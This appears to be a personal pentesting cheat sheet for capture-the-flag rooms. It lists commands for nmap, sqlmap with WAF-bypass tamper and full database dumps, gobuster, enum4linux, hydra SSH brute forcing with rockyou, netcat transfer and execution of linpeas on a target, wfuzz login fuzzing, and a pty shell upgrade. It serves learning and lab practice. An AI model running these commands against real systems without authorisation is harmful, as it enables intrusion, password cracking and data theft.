 # Resources
* [Interactive Shells](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)
* [SUID Binaries](https://gtfobins.github.io/)
* [Linux Priv Escalation Guide](https://payatu.com/guide-linux-privilege-escalation)

# NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```
* `-sT` - Connect scan, does three-way handshake, sends more packets, easier to detect
* `-sS` - SYN scan, faster, bails on three-way handshake
* `-sC` - Use default script
* `-sV` - Probe open ports to determine service/version info
* `-oN` - Output scan in normal mode
* `-T<1-5>` - Level of aggression to be used. Anti-mappers often detect `T3`-`T5`

## NMAP SCripts
A recent addition to Nmap is the Nmap Scripting Engine or NSE for short. This
feature introduces a "plug-in" nature to Nmap, where scripts can be used to
automate various actions such as:

* Exploitation
* Fuzzing
* Bruteforcing

At the time of writing, the NSE comes with 603 scripts, which can be found [here](https://nmap.org/nsedoc/scripts/).
```
nmap --script ftp-proftpd-backdoor -p 21 <ip_address>
```
**NOTE that SNORT can be used to detect nmap**

# sqlmap
When you see a login form, the first thing you should check is for sql injections. This is
an automated tool for that.
```
sqlmap -u "http://$IP/administrator.php" --forms -a
```
* `-u` - Specifies which url to attack
* `--forms` - Automatically selects parameters from the `<form>` elements on the page
* `--dump` - Used to retreive data from the DB once sqli is found
* `-a` - Grabs just about everything from the DB
* `--tamper=space2comment` - Bypas Web App Firewall (WAF)

## Sample commands
```
sqlmap -r ~/Downloads/filename --tamper=space2comment --dump-all --dbms sqlite
```

# Gobuster
Logically speaking, there are many pieces to a website that the average user doesn't see.
They can be anything from a sitemap to a secret directory which contains important files.
Unfortunately, this can cause developers to get a bit lazy, and not protect these
directories, allowing anyone who finds out that they exist to steal the important data.
gobuster is the tool that helps us discover these valuable directories if they exist. The
idea behind the tool itself is simple, bruteforcing common paths to check if it's valid.
Similar to how you would in your browser, albeit this tool is much, much quicker.
Gobuster has three modes: dir, vhost and dns.

Let's use the table below to illustrate how wordlists work:

|Original URL 	              |Item in Wordlist 	|Final URL                       |
|-----------------------------|-------------------|--------------------------------|
|http://example.com 	        |backups 	          |http://example.com/backups      |
|http://loveucmnatic.thm 	    |shepards 	        |http://loveucmnatic.thm/shepards|

Now the gobuster options:
Options 	Description
-u 	      Used to specify which url to enumerate
-w 	      Used to specify which wordlist that is appended on the url path i.e
          "http://url.com/word1"
          "http://url.com/word2"
          "http://url.com/word3.php"
-x 	      Used to specify file extensions i.e "php,txt,html"

```
export WORDLIST=/opt/directory-list-2.3-medium.txt
gobuster dir -u "http://$IP" -w $WORDLIST | tee gobuster.log
```

# enum4linux
```
/opt/enum4linx/enum4linx.pl -a $IP | tee enum4linux.log
```

# hyra
For finding passwords
```
hydra -l jan -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://$IP
```

# linpeas!
target terminal:
```
nc -l -p 1234 > /tmp/jake &
```

my terminal:
```
nc $IP $PORT < linpeas.sh
```

Finally, run:
```
chmod +x /tmp/jake
/tmp/jake
```

# wfuzz
The premise behind wfuzz is simple. Occasionally you want a bit more information about
how much data something within a web application returns. This could be anything from a
file, a response code (i.e. 404 meaning the URL doesn't exist) or the parameters used
in a form similar to the form you attacked in Day 2.

Options 	Description
-c 	Shows the output in color
-d 	Specify the parameters you want to fuzz with, where the data is encoded for a HTML form
-z 	Specifies what will replace FUZZ in the request. For example -z file,big.txt. We're telling wfuzz to look for files by replacing "FUZZ" with the words within "big.txt"
--hc 	Don't show certain http response codes. I.e. Don't show 404 responses that indicate the file doesn't exist, or "200" to indicate the file does exist
--hl 	Don't show for a certain amount of lines in the response
--hh 	Don't show for a certain amount of words
Note how the "FUZZ" parameter is being replaced with the words from the wordlist.
```
wfuzz -c -z file,mywordlist.txt -d “username=FUZZ&password=FUZZ” -u http://shibes.thm/login.php
```



# Stablize Shells
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


